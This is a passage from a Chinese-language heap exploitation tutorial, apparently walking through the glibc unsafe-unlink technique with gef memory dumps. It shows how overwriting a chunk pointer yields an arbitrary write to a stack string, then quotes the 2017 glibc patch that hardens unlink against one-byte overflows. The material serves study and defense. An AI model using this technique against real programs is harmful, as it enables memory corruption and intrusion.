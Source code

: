 ```
0x601068:	0x0000000000000000	0x0000000000601058      <-- bk pointer
0x601078:	0x0000000000000000
gef➤  x/5gx 0x601060
0x601060:	0x00007ffff7dd2540	0x0000000000000000  <-- fake chunk BK
0x601070:	0x0000000000601058	0x0000000000000000      <-- fd pointer
0x601080:	0x0000000000000000
gef➤  x/gx chunk0_ptr 
0x601058:	0x0000000000000000
gef➤  x/gx chunk0_ptr[3]
0x601058:	0x0000000000000000
```
所以，修改 `chunk0_ptr[3]` 就等于修改 `chunk0_ptr`：
```
gef➤  x/5gx 0x601058
0x601058:	0x0000000000000000	0x00007ffff7dd2540
0x601068:	0x0000000000000000	0x00007fffffffdc70  <-- chunk0_ptr[3]
0x601078:	0x0000000000000000
gef➤  x/gx chunk0_ptr 
0x7fffffffdc70:	0x4141414141414141
```

这时 `chunk0_ptr` 就指向了 victim_string，修改它：
```
gef➤  x/gx chunk0_ptr 
0x7fffffffdc70:	0x4242424242424242
```
成功达成修改任意地址的成就。

最后看一点新的东西，libc-2.25 在 unlink 的开头增加了对 `chunk_size == next->prev->chunk_size` 的检查，以对抗单字节溢出的问题。补丁如下：
```diff
$ git show 17f487b7afa7cd6c316040f3e6c86dc96b2eec30 malloc/malloc.c 
commit 17f487b7afa7cd6c316040f3e6c86dc96b2eec30
Author: DJ Delorie <dj@delorie.com>
Date:   Fri Mar 17 15:31:38 2017 -0400

    Further harden glibc malloc metadata against 1-byte overflows.
    
    Additional check for chunk_size == next->prev->chunk_size in unlink()
    
    2017-03-17  Chris Evans  <scarybeasts@gmail.com>
    
            * malloc/malloc.c (unlink): Add consistency check between size and
            next->prev->size, to further harden against 1-byte overflows.

diff --git a/malloc/malloc.c b/malloc/malloc.c
index e29105c372..994a23248e 100644
--- a/malloc/malloc.c
+++ b/malloc/malloc.c
@@ -1376,6 +1376,8 @@ typedef struct malloc_chunk *mbinptr;
 
 /* Take a chunk off a bin list */
 #define unlink(AV, P, BK, FD) {                                            \
+    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
+      malloc_printerr (check_action, "corrupted size vs. prev_size", P, AV);  \
     FD = P->fd;                                                                      \
     BK = P->bk;                                                                      \
     if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                    \
```
具体是这样的：
```c
/* Ptr to next physical malloc_chunk. */
#define next_chunk(p) ((mchunkptr) (((char *) (p)) + chunksize (p)))
/* Get size, ignoring use bits */
#define chunksize(p) (chunksize_nomask (p) & ~(SIZE_BITS))
/* Like chunksize, but do not mask SIZE_BITS.  */
```